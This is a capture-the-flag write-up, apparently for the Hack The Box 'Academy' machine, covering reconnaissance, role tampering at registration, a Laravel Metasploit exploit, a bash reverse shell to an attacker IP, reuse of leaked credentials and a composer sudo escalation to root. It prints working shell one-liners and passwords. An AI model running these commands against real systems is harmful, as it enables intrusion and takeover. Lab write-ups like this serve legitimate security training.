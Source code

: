 # Box 



![image-20201229063404677](img/image-20201229063404677.png)

https://www.hackthebox.eu/home/machines/profile/297

# Profile

 <img src="http://www.hackthebox.eu/badge/image/296177" alt="Hack The Box"> 

https://www.hackthebox.eu/home/users/profile/296177

# Table of contents

* [Reconnaissance](#Reconnaissance)
* [Exploitation](#exploitation)
* [Post-Exploitation](#post-exploitation)
  + [User](#user)
  + [User 2](#user-2)
  + [Root](#root)

# Contents 

## Reconnaissance

Let's start with nmap :

```bash
nmap -sV -sC -Pn --top-ports 1000 -oN scan_10.10.10.215 10.10.10.215
```

![image-20201229063656822](img/image-20201229063656822.png)

Let's add to our /etc/hosts file the subdomain `10.10.10.215 academy.htb`

After folder discovering I've found an admin.php page which leads us to a login page : 

![image-20201229080526926](img/image-20201229080526926.png)

There is also a register page : 

![image-20201229090316842](img/image-20201229090316842.png)

After registering I haven't found anything on the base website. That's why I decided to look at the register POST :

![image-20201229090417189](img/image-20201229090417189.png)

This is a sample request that I've done. We can see there is a roleid. Let's change it to `roleid=1`

Now we can login in the admin page.

![image-20201229090756860](img/image-20201229090756860.png)

Let's add `dev-staging-01.academy.htb` to our /etc/hosts

So we now have a new page : 

![image-20201229091615767](img/image-20201229091615767.png)

Well, We can see that we are running laravel. 

I searched for Laravel  exploit and found (https://www.exploit-db.com/exploits/47129) : 

## Exploitation

It's an exploit on MSF so let's use it. 

![image-20201229114951246](img/image-20201229114951246.png)

it seems that it's working : 

![image-20201229115020543](img/image-20201229115020543.png)

Let's getter a bette reverse_shell :

```bash
/bin/bash -i >& /dev/tcp/10.10.14.28/1236 0>&1
```

![image-20201229115624261](img/image-20201229115624261.png)

## Post-Exploitation

### User



I found a file containing DB creds : 

![image-20201229121512100](img/image-20201229121512100.png)

so we got this password `mySup3rP4s5w0rd !!` but here are all our users : 

````bash
21y4d:x:1003:1003::/home/21y4d:/bin/sh
ch4p:x:1004:1004::/home/ch4p:/bin/sh
cry0l1t3:x:1002:1002::/home/cry0l1t3:/bin/sh
egre55:x:1000:1000:egre55:/home/egre55:/bin/bash
g0blin:x:1005:1005::/home/g0blin:/bin/sh
mrb3n:x:1001:1001::/home/mrb3n:/bin/sh
root:x:0:0:root:/root:/bin/bash
````

I have tried each one and one suceeded `cry0l1t3`

![image-20201229143334226](img/image-20201229143334226.png)

### User 2

After getting root, i started a linpeas and we got new creds : 

```
mrb3n:mrb3n_Ac@d3my!
```

![image-20201229145044684](img/image-20201229145044684.png)



![image-20201229145112983](img/image-20201229145112983.png)

### Root

Now let's check what we can do as a super-user : 

```bash
sudo -l 
```

![image-20201229165737083](img/image-20201229165737083.png)

It seems that we can run user.

There is a privelege escalation that we can use(https://gtfobins.github.io/gtfobins/composer/) : 

Let's make a script with this code : 

```bash
TF=$(mktemp -d)
echo '{"scripts":{"x":"/bin/sh -i 0<&3 1>&3 2>&3"}}' >$TF/composer.json
sudo composer --working-dir=$TF run-script x
```

![image-20201229165905790](img/image-20201229165905790.png)

Rooted.